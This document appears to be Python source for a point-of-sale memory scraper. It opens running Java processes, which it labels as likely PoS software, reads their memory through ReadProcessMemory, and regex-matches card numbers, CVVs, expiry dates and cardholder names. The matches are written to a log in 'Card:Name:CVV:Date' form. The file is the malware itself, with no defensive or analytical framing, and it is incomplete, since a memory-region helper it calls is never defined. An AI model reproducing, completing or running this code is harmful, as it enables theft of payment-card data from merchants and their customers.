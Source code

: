 import ctypes
import psutil
import re
import time
import threading
import logging
from queue import Queue

# Constants required for process memory access
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Initialize memory queue and running flag
memory_queue = Queue()
running = True

# Regex patterns for card information
CARD_NUMBER_PATTERN = r'\b(?:\d[ -]*?){13,16}\b'  # Example pattern for 13-16 digit card numbers
CVV_PATTERN = r'\b\d{3,4}\b'  # Typical CVV pattern (3 or 4 digits)
EXPIRY_DATE_PATTERN = r'\b(0[1-9]|1[0-2])\/([0-9]{2})\b'  # Expiry date pattern (MM/YY)
NAME_PATTERN = r'[A-Z][a-z]+ [A-Z][a-z]+'  # Simple pattern for detecting names (First Last)

# Function to scan a memory chunk for card info
def scan_memory_chunk(memory_chunk):
    valid_cards = []
    
    # Search for potential card numbers
    card_numbers = re.findall(CARD_NUMBER_PATTERN, memory_chunk)
    
    for card_number in card_numbers:
        # Search for associated CVV, Expiry Date, and Name
        cvv = re.search(CVV_PATTERN, memory_chunk)
        expiry_date = re.search(EXPIRY_DATE_PATTERN, memory_chunk)
        name = re.search(NAME_PATTERN, memory_chunk)

        if card_number and cvv and expiry_date and name:
            card_info = {
                'Card': card_number,
                'Name': name.group(),
                'CVV': cvv.group(),
                'Date': expiry_date.group()
            }
            valid_cards.append(card_info)
    
    return valid_cards

# Worker thread that processes memory chunks for a specific process
def memory_scan_worker(process_handle, pid):
    while running:
        if memory_queue.empty():
            time.sleep(1)  # Avoid busy waiting
            continue
        
        base_addr, size = memory_queue.get()
        
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            # Check if the address is still valid and if we can read memory
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                print(f"[PID {pid}] Scanning memory region at address {base_addr} with size {size}")
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        # Print in the format "Card:Name:CVV:Date"
                        formatted_output = f"{card['Card']}:{card['Name']}:{card['CVV']}:{card['Date']}"
                        print(formatted_output)
                        logging.info(formatted_output)  # Log to file
                else:
                    print(f"[PID {pid}] No valid card data found in this memory region.")
            else:
                logging.warning(f"[PID {pid}] Failed to read memory at {base_addr}: Address may not be valid or accessible.")
                print(f"[PID {pid}] Failed to read memory at address {base_addr}.")
        except Exception as e:
            logging.error(f"[PID {pid}] Error reading memory at {base_addr}: {e}")
            print(f"[PID {pid}] Error reading memory at address {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Function to automatically detect PIDs of relevant processes (e.g., javaw.exe)
def get_relevant_pids():
    relevant_pids = []
    for proc in psutil.process_iter(['pid', 'name']):
        try:
            # Check for processes that might be related to PoS software
            if proc.info['name'] in ['javaw.exe', 'java.exe']:  # Add other relevant names here if needed
                print(f"Detected relevant process: {proc.info['name']} (PID: {proc.info['pid']})")
                relevant_pids.append(proc.info['pid'])
        except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
            continue
    return relevant_pids

# Main function to scan memory of automatically detected processes
def scan_process_memory(num_threads=4):
    pids = get_relevant_pids()
    
    if not pids:
        print("No relevant processes found.")
        return

    for pid in pids:
        print(f"Starting memory scan for PID {pid}")
        memory_regions = get_memory_regions(pid)
        if not memory_regions:
            print(f"[PID {pid}] No valid memory regions found.")
            continue

        process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not process_handle:
            print(f"[PID {pid}] Could not open process.")
            continue

        # Start threads for each process
        threads = []
        for _ in range(num_threads):
            t = threading.Thread(target=memory_scan_worker, args=(process_handle, pid))
            t.daemon = True  # Allow threads to exit when the main program does
            t.start()
            threads.append(t)

        try:
            while running:
                # Keep scanning new memory regions in a loop
                new_memory_regions = get_memory_regions(pid)
                for region in new_memory_regions:
                    print(f"[PID {pid}] Adding memory region to queue: {region}")
                    memory_queue.put(region)

                time.sleep(5)  # Delay between scans to reduce CPU usage

        except KeyboardInterrupt:
            print(f"Stopping the memory scan for PID {pid}...")
        finally:
            for t in threads:
                t.join()
            ctypes.windll.kernel32.CloseHandle(process_handle)

    print("All memory scans completed.")

# Example usage
if __name__ == "__main__":
    logging.basicConfig(level=logging.INFO, filename='memory_scan.log', filemode='a', format='%(asctime)s - %(message)s')

    # Start scanning memory for relevant processes
    scan_process_memory(num_threads=4)
